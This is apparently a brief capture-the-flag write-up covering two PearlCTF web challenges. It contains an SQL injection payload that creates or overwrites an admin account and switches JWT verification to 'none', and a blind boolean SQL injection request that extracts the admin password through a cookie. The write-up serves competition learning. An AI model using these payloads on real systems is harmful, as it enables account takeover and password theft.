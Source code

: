 ## Web - Quote
Solution 1: just registering a normal account then using jwt none algorithm 

Solution 2: from random player 
quote -> INSERT INTO User (username, password_hash, jwt_algorithm) VALUES ("ad"||"min", '$2b$12$9ZdLvg6oTpp.ekSXsBZMdeh2Ffg6genKCDN4QU4msDbrCgSdGVMeK', 'HS256') ON CONFLICT(username) DO UPDATE SET password_hash = '$2b$12$9ZdLvg6oTpp.ekSXsBZMdeh2Ffg6genKCDN4QU4msDbrCgSdGVMeK',    jwt_algorithm = 'none' -- -;

for summarize, they used concatenation to register a admin account with the password they control.

## Web - Fortune Crumbs
Solution:
```
GET /request HTTP/2
Host: fortune-crumbs.ctf.pearlctf.in
Cookie: auth_token=2123' OR (SUBSTRING((SELECT password FROM users WHERE username='admin'),position,1))='char'-- -
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://fortune-crumbs.ctf.pearlctf.in/
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
If-None-Match: 
Priority: u=0
Te: trailers
```

